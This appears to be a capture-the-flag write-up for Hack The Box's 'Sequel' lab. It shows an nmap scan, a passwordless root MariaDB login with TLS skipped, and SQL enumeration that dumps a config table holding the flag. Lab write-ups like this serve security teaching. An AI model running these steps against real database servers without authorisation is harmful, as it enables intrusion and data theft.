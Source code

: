 # HTB “Sequel” MariaDB Write-Up

## 1. Introduction
**Objective:** Bypass TLS requirement and enumerate MariaDB on HTB’s “Sequel” machine to retrieve the flag.  
**Author:** keyfive5  
**Date:** 2025‑04‑20  

## 2. Lab Environment
- **Attacker VM:** Kali Linux (via HTB VPN)  
- **Target IP:** 10.129.28.113  
- **Tools:** nmap, mysql-client, Bash  

## 3. Enumeration

### 3.1 Nmap Scan
```bash
nmap -sC -sV -p 3306 10.129.28.113 -oN nmap-3306.txt
```
_Revealed:_  
```
3306/tcp open  mysql?  MariaDB 10.3.27
```

### 3.2 MySQL Connection
```bash
mysql --ssl -h 10.129.28.113 -u root --skip-ssl
```
_Welcome message_ confirms direct, passwordless access.

## 4. Exploitation

### 4.1 Enumerator Commands
```sql
SHOW DATABASES;
USE htb;
SHOW TABLES;
SELECT * FROM config;
```
_`config` table output:_
| id | name | value |
|----|------|-------|
| 5  | flag | 7b4bec00d1a39e3dd4e021ec3d915da8 |

## 5. Automation Script
See `scripts/enum-mysql.sh` for full reproducible enumeration.

## 6. Results
**Flag:** `7b4bec00d1a39e3dd4e021ec3d915da8`

## 7. Lessons Learned
- Direct DB access can bypass web‑app filters.  
- MariaDB clients may enforce TLS by default—know how to disable.  
- Standard SQL enumeration quickly exposes sensitive data.

## 8. References
- [OWASP Top 10 – Injection](https://owasp.org/www-project-top-ten/)  
- `man mysql`  
- `nmap` official docs  
